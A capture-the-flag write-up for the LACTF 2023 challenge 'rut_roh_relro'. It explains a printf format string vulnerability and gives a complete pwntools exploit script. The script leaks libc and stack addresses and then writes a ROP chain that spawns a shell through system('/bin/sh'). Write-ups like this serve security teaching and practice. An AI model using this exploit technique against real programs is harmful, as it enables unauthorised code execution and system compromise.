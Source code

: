 +++
authors = ["laozi"]
title = "pwn/rut_roh_relro"
date = "2023-02-12"
+++

### The challenge

This was a printf format string vulnerability. The program gets your input
then calls `printf()` on that input. Then it repeats that again. The relro
and PIE are what make this more difficult than the rick-roll challenge. Instead
of exploiting the GOT (which is read-only). You can read the address of libc as
well as the return address on the stack, then you can use the format string write
in order to create a ROP chain that just calls `system('/bin/sh')`.

```python
#!/usr/bin/env python3
from pwn import *
elf = ELF("./rut_roh_relro_patched")
libc = ELF("./libc.so.6")
ld = ELF("./libc-2.31.so")
context.terminal = ['tmux', 'splitw', '-h']
context.binary = elf
debug_script = '''
'''
def conn():
    if not args.REMOTE:
        p = process([elf.path])
        if args.D:
            gdb.attach(p, gdbscript=debug_script)
    else:
        p = remote("lac.tf", 31134)
    return p
p = conn()
p.recv()
payload = "%62$p %3$p "
p.sendline(payload)
p.recvline()
b = p.recv()
x = b.split(b' ')
addr1 = int(x[0],16)
addr2 = int(x[1],16)
ret_addr = addr1 + 33
libc.address = addr2 - 968755
writes = {ret_addr:libc.address+0x23796,
          ret_addr+8:next(libc.search(b'/bin/sh')),
          ret_addr+16:libc.symbols['system']}
payload = fmtstr_payload(6, writes, numbwritten=0)
p.sendline(payload)
p.interactive()
```
